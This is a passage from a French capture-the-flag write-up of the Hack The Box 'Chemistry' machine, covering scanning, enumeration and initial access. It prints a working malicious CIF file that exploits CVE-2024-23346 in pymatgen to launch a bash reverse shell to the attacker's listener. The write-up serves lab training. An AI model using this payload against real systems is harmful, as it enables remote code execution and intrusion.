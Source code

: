 ```shell
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 104.38 seconds
```

Nmap trouve deux ports ouverts:
* 22 - SSH
* 5000 - nmap n'est pas en mesure de déterminer avec précision le service

## Enumération

À `http://10.10.11.38:5000/` nous trouvons un analyseur de fichiers.

![Chemistry website](/images/HTB-Chemistry/chemistry_website.png)

Après avoir créé un compte, nous trouvons un tableau de bord où nous pouvons uploader un fichier CIF, un exemple de fichier est également fourni.

![Chemistry Dashboard](/images/HTB-Chemistry/chemistry_dashboard.png)

## Accès Initial (shell en tant que app)

En recherchant `Malicious CIF file` sur Google, nous trouvons le [CVE-2024-23346](https://www.vicarius.io/vsociety/posts/critical-security-flaw-in-pymatgen-library-cve-2024-23346) avec un PoC disponible [ici](https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f). Ci-dessous se trouve le contenu de notre fichier CIF malveillant.

```python
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -c \'sh -i >& /dev/tcp/{IP}/{PORT} 0>&1\'");0,0,0'


_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```

Après avoir transféré le fichier, nous utilisons le bouton `View` pour l'exécuter.

![malicious CIF file](/images/HTB-Chemistry/bad_CIF.png)

Nous obtenons une connexion sur notre listener en tant que `app`.
